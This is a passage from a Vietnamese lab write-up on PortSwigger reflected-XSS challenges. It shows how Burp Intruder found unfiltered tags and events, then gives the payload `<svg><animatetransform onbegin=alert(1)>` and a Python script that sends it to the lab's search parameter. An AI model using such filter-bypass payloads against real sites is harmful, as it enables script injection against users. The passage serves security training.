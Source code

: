 ### Khai thác

- Dùng Intruder với wordlist tag cho trước để tìm xem các tag nào không bị filter.
- Kết quả trả về có 4 tag không bị block là `image, svg, title, animatetransform`

![image](https://hackmd.io/_uploads/r1-0o9P56.png)

- Như vậy, ta có thể sử dụng tag animatetransform trong tag svg. Ta tiếp tục dùng Intruder để xem event nào không bị block.
- Kết quả chỉ có `onbegin` không bị filter.
- Sử dụng nó với payload `<svg><animatetransform onbegin=alert(1)>`, ta solve được challenge.

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a67009e03ddde64805fd044001b0079.h1-web-security-academy.net'

payload= "<svg><animatetransform onbegin=alert(1)>"
response = requests.get(
    url + '/?search=' + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/rJ7hKqw9T.png)

## 17. Lab: Reflected XSS in canonical link tag

link: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

### Đề bài

![image](https://hackmd.io/_uploads/rJngR5wq6.png)

### Phân tích

- Lab trên sẽ trả về dữ liệu đầu vào của user bên trong một canonical link và sẽ loại bỏ dấu `<>`, để solve lab mình cần thực hiện XSS ở trang home sao cho thực hiện được chức năng alert.

mình đi tìm hiểu canonical link
